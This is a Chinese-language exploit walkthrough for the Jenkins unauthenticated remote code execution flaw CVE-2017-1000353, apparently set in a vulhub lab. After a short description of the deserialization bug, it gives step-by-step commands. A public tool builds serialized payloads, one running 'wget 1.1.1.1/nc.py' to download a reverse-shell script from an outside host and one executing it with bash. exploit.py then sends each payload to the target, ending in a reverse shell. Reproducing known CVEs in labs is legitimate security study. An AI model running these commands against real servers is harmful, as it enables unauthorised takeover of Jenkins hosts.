 # Jenkins 命令执行漏洞（CVE-2017-1000353） by [Vdeem](https://github.com/Vdeem)

## 一、漏洞描述

Jenkins 未授权远程代码执行漏洞, 允许攻击者将序列化的 Java SignedObject 对象传输给 Jenkins CLI 处理，反序列化 ObjectInputStream 作为 Command 对象，这将绕过基于黑名单的保护机制, 导致代码执行。

## 二、利用流程

1 对应环境为 Jenkins 远程代码执行漏洞(CVE-2017-1000353）

![](./1.png)

2 利用工具https://github.com/vulhub/CVE-2017-1000353

3 执行命令生成字节码文件，“ ”处填可反弹 shell 文件地址

```
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "wget 1.1.1.1/nc.py -P /tmp"
```

4 发送数据包，执行命令，使文件下载到服务器

```
python exploit.py http://your-ip:8080 jenkins_poc.ser
```

![](./2.png)

5 生成字节码文件，“ ”处填写要执行的脚本

```
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "/bin/bash /tmp/nc.py"
```

6 发送数据包，执行脚本

```
python exploit.py http://your-ip:8080 jenkins_poc.ser
```

7 可反弹shell

